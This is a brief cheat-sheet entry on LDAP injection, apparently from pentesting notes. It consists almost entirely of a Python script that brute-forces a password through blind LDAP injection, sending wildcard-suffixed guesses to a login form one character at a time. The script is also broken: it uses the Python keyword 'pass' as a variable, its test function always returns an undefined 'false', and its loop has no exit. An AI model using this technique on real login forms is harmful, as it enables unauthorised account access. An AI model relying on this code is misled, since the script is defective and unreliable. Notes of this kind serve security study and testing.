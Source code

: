 # LDAP Injection

Example of retrieving a password using blind LDAP injection from a login form:

```python
#!/usr/bin/python3

import requests
import string
import re

charset = "{}_-" + string.ascii_letters + string.digits
url = '<url>'

def go(p):
  d = {"username": "<username>", "password": f"{p}*"}
  r = requests.post(url + '/login', allow_redirects=False, data=d)
  # return true on success, false on error depending on the response
  return false
  
pass = ""
while True:
  for c in charset:
    if go(pass + c):
        pass +=  c
        print(pass)
```

